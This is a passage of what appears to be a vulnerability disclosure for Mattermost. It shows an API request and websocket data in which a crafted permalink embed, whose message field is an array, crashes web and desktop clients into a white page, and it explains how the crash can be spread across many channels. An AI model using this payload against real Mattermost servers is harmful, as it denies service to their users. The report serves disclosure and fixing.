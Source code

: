 ```javascript

const resp = await fetch(`${MM_INSTANCE_URL}/api/v4/posts`, {
  headers: {
    "Content-Type": "application/json",
    Authorization: `Bearer ${MM_AUTH_TOKEN}`,
  },
  method: "POST",
  body,
});

console.log(JSON.stringify(await resp.json(), null, 4));
```
### Received Data from websocket connection
```json
{"event":"posted","data":{"channel_display_name":"@arthurd","channel_name":"1wt8aoiskjg99dap81jx4zjejc__w1bycrx7apy3xn31j7dyszahfa","channel_type":"D","mentions":"[\"w1bycrx7apy3xn31j7dyszahfa\"]","post":"{\"id\":\"zsx67zqb8frh3knprgon4k1azc\",\"create_at\":1717763588738,\"update_at\":1717763588738,\"edit_at\":0,\"delete_at\":0,\"is_pinned\":false,\"user_id\":\"1wt8aoiskjg99dap81jx4zjejc\",\"channel_id\":\"ucatpix4girt5rp3w4xunng14o\",\"root_id\":\"\",\"original_id\":\"\",\"message\":\"\",\"type\":\"\",\"props\":{\"previewed_post\":\"96nffx8oztncuyyxq7nj7p8seh\"},\"hashtags\":\"\",\"pending_post_id\":\"\",\"reply_count\":0,\"last_reply_at\":0,\"participants\":null,\"metadata\":{\"embeds\":[{\"type\":\"permalink\",\"data\":{\"channel_display_name\":\"can-be-anything-i-want\",\"channel_id\":\"\",\"channel_type\":\"O\",\"post\":{\"channel_id\":\"doesnt-matter\",\"hashtags\":\"\",\"id\":\"96nffx8oztncuyyxq7nj7p8seh\",\"last_reply_at\":0,\"message\":[\"This will crash your webapp/desktop app\"],\"metadata\":{},\"original_id\":\"\",\"participants\":[],\"props\":{},\"reply_count\":0,\"root_id\":\"\",\"type\":\"\",\"user_id\":\"teur4prbifnh7dhq5rh3cp7q4c\"},\"post_id\":\"96nffx8oztncuyyxq7nj7p8seh\",\"team_name\":\"\"}}]}}","sender_name":"@arthurd","set_online":true,"should_ack":true,"team_id":""},"broadcast":{"omit_users":null,"user_id":"w1bycrx7apy3xn31j7dyszahfa","channel_id":"ucatpix4girt5rp3w4xunng14o","team_id":"","connection_id":"","omit_connection_id":""},"seq":14}
```

### Impact
{F3339055}
{F3339056}
(dead web application, requires restart)

Its important to note that users don't have to be on the channel where the malicious embed is, naviagting there without refreshing the website/desktopapp still ends up in a white page.

More importantly, one can send embeds with valid messages in multiple channels, then when one post changes the embed e.g. different message, that happens for all occurences, so one could create valid embeds in a couple channels e.g. town-square, off-topic and more, then one with an invalid message and all of those channels now result in a whitepage (crash) for webapp/desktopap users.

### Get request of post
```json
{"id":"zsx67zqb8frh3knprgon4k1azc","create_at":1717763588738,"update_at":1717763588738,"edit_at":0,"delete_at":0,"is_pinned":false,"user_id":"1wt8aoiskjg99dap81jx4zjejc","channel_id":"ucatpix4girt5rp3w4xunng14o","root_id":"","original_id":"","message":"","type":"","props":{"previewed_post":"96nffx8oztncuyyxq7nj7p8seh"},"hashtags":"","pending_post_id":"","reply_count":0,"last_reply_at":0,"participants":null,"metadata":{}}
```
